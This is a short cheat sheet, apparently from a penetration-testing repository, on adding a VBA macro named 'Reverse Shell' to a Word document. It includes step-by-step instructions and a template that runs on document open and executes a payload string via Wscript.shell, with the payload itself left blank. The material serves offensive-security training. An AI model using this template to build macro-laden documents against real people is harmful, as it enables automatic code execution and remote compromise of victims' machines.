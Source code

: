 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_vba.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_vba.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - VBA (Visual Basic for Applications)
## Table of Contents
* [How to Add a Macro to a Microsoft Word Document](#how-to-add-a-macro-to-a-microsoft-word-document)
* [Example Macro](#example-macro)
* [Example Macro Syntax Explained](#example-macro-syntax-explained)

## How to Add a Macro to a Microsoft Word Document
1. Click-on "View" > "Macros" 
2. Set "Macro name" to be "Reverse Shell"
3. Set "Macros in" to be the name of the current Word document
4. Click-on "Create"
5. Replace the provided template code with your payload (see below for an example)
6. Save the macro-embedded file as a "Word 97-2003 Document"

## Example Macro
To test the example code below, save it with a .doc or .docm file (do not use .docx). Ensure to use variables to store strings as VBA limits string lengths to no more than 255 per string. In other words, if you have a long payload, break it up and then concatenate each part to a variable. 
```vba
Sub AutoOpen()
  ReverseShell
End Sub

Sub Document_Open()
  RevereShell
End Sub

Sub ReverseShell()
  ' copy/paste your payload into the FOO variable
  Dim FOO As String
  FOO = ""
  
  CreateObject("Wscript.shell").Run FOO
End Sub
```

## Example Macro Syntax Explained
```bash
# Sub = used like a function, but does not return values (functions return values)
# AutoOpen() = a predefined procedure; executed when a new document is opened
# Document_Open() = a predfined procedure; executed when a document is already opened
# ' = comments
# Dim = used to declare a variable (the example declares FOO as a string variable
# CreateObject()
# End Sub = represents the end of "sub" procedure within our exploit
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_vba.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_vba.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
